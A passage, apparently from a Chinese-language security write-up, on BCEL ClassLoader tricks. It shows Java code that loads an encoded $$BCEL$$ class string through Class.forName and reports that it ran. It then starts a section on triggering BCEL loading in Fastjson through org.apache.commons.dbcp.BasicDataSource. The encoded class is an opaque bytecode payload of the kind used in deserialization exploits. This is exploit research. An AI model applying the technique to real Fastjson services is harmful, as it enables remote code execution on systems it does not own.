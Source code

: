 ```java
        String className = "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$85TmS$hU$Y$3d$97$bc$ec$b2$y$q$qB$J$f5$r$a8m$D$b4$89$d6jk$8a$a8$8dE$90$A5$a1P$daj$e7fs$L$5b7$bb$99$dd$8d$d2$9f$e2$_$e8$e7$fa$B$3av$c6$l$e0$3f$f2$83$8eg$93$94$UI$c7L$e6$d9$7d$ce$f3$7e$9e$bb$f7$cf$7f$7e$ff$D$c05$3c20$85$8fu$5c$d5$f1$89A$fdS$j$9f$Z$b8$8e$h$3a$3e$d7Q$d6q$d3$c0$S$be$88$c4$b2$81$_$f1$95$86$afGq$L$V$D$e3$f8F$c3m$Di$ach$f8$d6$40$G$ab$g$d64$7c$t$90$5c$b2$5d$3b$5c$W$88$V$e6w$E$e2$V$af$a9$ERU$dbU$9b$9dVC$f9$db$b2$e1$Q$c9T$3dK$3a$3b$d2$b7$p$bd$P$c6$c3$D$3b$88l$96$d7$w5$y$e5$94$w$5e$ab$r$dd$e6M$B$7d$c9r$fa$a9$b5$b6$efY$w$a0g$b6$faD$fe$yK$8et$f7Kwz$m$5dGlW$60$aag$b2$bd$d2$9a$db$ee$84$f5$d0W$b2E$e3$98$3dP$d9$a5$j$f8$C$e7$87$f9$d6$94l$w$3fJ$d7$a0$cb$cc$89$cb$ad$ce$e3$c7$caW$cd$T$bbP$a7$aam$dd$3e$b4T$3b$b4$3d$976$cd$ea$N$Q$N5h$95$Flw$9f$e6$a4$Xl$ca$W$e3$c7$eb$a1$b4$7e$da$90$ed$$$T$g$d6$c9$ab$80Q$f7$3a$be$a5V$ec$88$i$b3$cfE1$cacb$g$e7$E$a6$bd$b6r$f3Wd$be$o$j$ab$e3$c8$d0$f3$8b$b2$ddf$5d$_$u$ba$cc$ac$a1jb$D$9bDvm$b7$e9$fd$S0$b7$89$z$dc$n$db$5c$80$r$90$e0n$3a$87$Ci$ab$e3$3b$f9$a6$h8$de$7e1Z$80$86$efM$d4P7$b1$8d$bb$gvL$ec$e2$9e$40$ee$8d$5ci$d83q$l$P$a2$e6$k$b2$b9$e1$8cE$d6$l$b8$ba$n$84$99$f81$9a$w$fd$df$f5$T$g$90$b7$d5x$a2$ac$f0$U$d4$e3$f34$f44$I$V$X$3c$b6$afB$9e$8c$b6$f2$c3$a7$C$X$Lg$b70$3fl1F$QJ$3f$Mv$ed$f0$80$cb$j$Wu_$60r$80$d6$3anhG$8b4X$efD$99$w$bc$9e$bc$P3$7b$5c$j$w2$7f$e9$7f$ba$Z$9c$e8$c93$a0$c0$E$x$ad$bd$7e$96$cf$bd$aav$e6$cc$cfua$97$b8u$m$fd$40$85$acFZ$a5$df$ac$f4t$a6K$dc$dd$5eytC$60$b6z$c6$b9$ef$c4DW$LC$x$bc9$q$ba$D$b2$83$a0$fe7$T$a1$a96$e7$N$bb$c7$7e$db$97$96$c2$i$de$e2$85$U$fdF$m$a2$e3M9C$ad$c4$a7$e03$b1p$M$f1$bck$ceQ$s$bb$e0$uf$v$cd$9e$D$ce$e3m$3eu$bc$f3$wX$5c$40$i$g$b1$87$99$91$f5L$ec$F$e2$d5$c5L$e2$I$c9_1$9a$d1$d6$9fae1$a3$f7$d5Q$aa$d7_$c0X8$c2$d8$c6$e5$p$98$9b$91$u$c7_b$7c$_$X$ff$N$T$c7H$95$T$_$91$de$cb$r$8e1YN$3e$83$k$f9e$9f$b3$d6$r$d4$b1$c3$7b0$d6$edm$Z$v$ca1j$e3$ec0E$3c$cdn2$i1K$cfi$8e4$c3$Lw$We$f6$bb$8aw$Z$fb$3e$a3$f3$fc$be$e6$f0$A$X$bb3$d58G$J$l$d2$fa$k$t$beF$99$a75$c6$98$i$bd$e78$d7$w$x$7c$40$8f$E$e3$81$L$8cK2C$9c$V$K$8c$88$e1$k$e6$b1$d0$e5$a8$86E$be$J$5c$a6$96E$fco$cch$b8$c2$ff$84$ab$a1$f8$XC$EKE$c4$7e$f4$_$af$pH$dd$k$G$A$A";
        Class<?> clazz = Class.forName(className, true, classLoader);

        System.out.println(clazz);
    }

    public static void main(String[] args) throws Exception {
        bcel();
    }

}
```

成功执行

![image-20220509170903092](https://image-1257110520.cos.ap-beijing.myqcloud.com/old/202205091709177.png)







# 0x04 BCEL Fastjson 应用



在fastjson中主要是通过 `org.apache.commons.dbcp.BasicDataSource`类来出发BECL的类加载器

首先发送payload：

![image-20220509191509212](https://image-1257110520.cos.ap-beijing.myqcloud.com/old/202205091915315.png)
